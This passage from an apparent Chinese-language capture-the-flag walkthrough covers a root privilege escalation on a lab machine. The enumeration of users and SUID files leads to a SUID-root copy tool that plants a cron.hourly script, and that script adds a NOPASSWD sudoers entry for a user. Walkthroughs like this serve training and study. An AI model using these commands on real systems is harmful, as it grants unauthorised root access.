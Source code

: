 -A INPUT -p tcp -m tcp --dport 445 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 2525 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
果然开放了限制！
3）普通用户枚举：
billy:x:1000:1000    uid=1000(billy)27(sudo)
veronica:x:1001:1001
eric:x:1002:1002
4）SUID枚举
find / -perm -4000 2>/dev/null
/usr/local/share/sgml/donpcgd


----------------------------------------
----------------------------------------
13、提权

1）方法1：计划任务+复制+技巧提权

查看权限：
ls -la /usr/local/share/sgml/donpcgd
-r-sr-s--- 1 root eric 372922 Aug 20  2016 /usr/local/share/sgml/donpcgd
可以看到uid是root权限执行！那么提权就拿到root权限了！

如果使用：
/usr/local/share/sgml/donpcgd
Usage: /usr/local/share/sgml/donpcgd path1 path2

测试功能：
echo 'hello' > dayu
/usr/local/share/sgml/donpcgd /tmp/zc/home/eric/dayu

/usr/local/share/sgml/donpcgd /tmp/zc/home/eric
#### mknod(/home/eric,81b4,0)
/home/eric: File exists
测试发现文件不存在！


/usr/local/share/sgml/donpcgd /tmp/zc/home/eric/dayu
#### mknod(/home/eric/dayu,81b4,0)
cat /home/eric/zc  ---无内容
该程序会将路径1中的文件复制到路径2（仅名称相同，但是内容不会被复制，新文件内容为空）




/usr/local/share/sgml/donpcgd /tmp/test /etc/cron.hourly/test


参考文章：
https://qastack.cn/ubuntu/7676/function-of-etc-cron-hourly


touch /tmp/zc
/usr/local/share/sgml/donpcgd /tmp/zc/etc/cron.hourly/zc
echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /etc/cron.hourly/zc
chmod +x /etc/cron.hourly/zc
cat /etc/cron.hourly/zc
等待一个小时~~~
sudo su

